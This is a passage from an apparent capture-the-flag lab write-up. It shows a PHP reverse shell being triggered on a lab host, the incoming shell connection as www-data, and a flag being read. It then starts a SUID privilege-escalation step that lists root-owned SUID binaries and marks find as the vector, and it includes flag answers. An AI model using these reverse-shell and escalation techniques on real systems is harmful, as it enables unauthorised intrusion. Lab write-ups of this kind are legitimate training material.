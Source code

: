 Triggering the shell by accessing: `http://target2.ine.local/site-uploads/php-reverse-shell.php`

**Connection Received:**
```
connect to [192.205.121.2] from (UNKNOWN) [192.205.121.4] 50906
Linux target2.ine.local 6.8.0-57-generic #59-Ubuntu SMP PREEMPT_DYNAMIC
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Successfully obtained shell access as the `www-data` user.

#### Step 6: Flag Retrieval

```bash
$ ls /
$ cat /flag3.txt
```

**Flag 3 Content:**
```
FLAG3{6d1ae674a75948a7b5e9c3a20a0264ab}
```

🚩 **Flag 3**: `FLAG3{6d1ae674a75948a7b5e9c3a20a0264ab}`

---

### Challenge 4: Privilege Escalation via SUID

**Objective**: "Can you escalate to root on target2.ine.local and read the flag from the restricted /root directory?"

#### Step 1: SUID Binary Enumeration

Searching for SUID binaries that could enable privilege escalation:

```bash
find / -type f -perm -4000 -user root 2>/dev/null
```

**Command Explanation:**
- `find /` - Search from root directory
- `-type f` - Only find files
- `-perm -4000` - Find files with SUID bit set
- `-user root` - Owned by root user
- `2>/dev/null` - Suppress error messages

**SUID Binaries Found:**
```
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find         <-- Potential exploit vector
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
```
